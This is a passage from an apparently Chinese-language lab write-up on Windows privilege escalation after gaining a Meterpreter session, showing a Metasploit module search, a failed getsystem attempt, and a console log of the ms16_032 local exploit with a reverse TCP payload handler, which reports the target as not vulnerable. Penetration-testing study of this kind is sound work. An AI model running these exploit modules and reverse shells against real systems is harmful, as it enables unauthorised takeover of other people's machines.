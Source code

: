 
msf 提权就比较繁琐了


在 msf 中查看提权模块



```


|  | search platform:windows type:exploit local |
| --- | --- |


```

看到了很多提权的 exp，这就考验我们对提权的 exp 选择的经验了


下面列举常见的提权漏洞，不论成功与否，我们都可以尝试一下，我也会标明


#### a）getsystem（失败）


拿到 meterpreter 肯定现尝试 getsystem


![image-20240926143339479](https://img2024.cnblogs.com/blog/2769156/202409/2769156-20240926184039247-593617406.png)


没有提权成功


#### b）ms16\_032（失败）


**secondary\_logon\_handle\_privesc** : 利用 Windows Secondary Logon 服务的漏洞。



```


|  | msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > use windows/local/ms16_032_secondary_logon_handle_privesc |
| --- | --- |
|  | [*] Using configured payload windows/meterpreter/reverse_tcp |
|  | msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set session 6 |
|  | session => 6 |
|  | msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > run |
|  |  |
|  | [*] Started reverse TCP handler on 192.168.111.10:4444 |
|  | [+] Compressed size: 1160 |
|  | [-] Exploit aborted due to failure: not-vulnerable: Target is not vulnerable |
|  | [+] Deleted |
|  | [*] Exploit completed, but no session was created. |


```
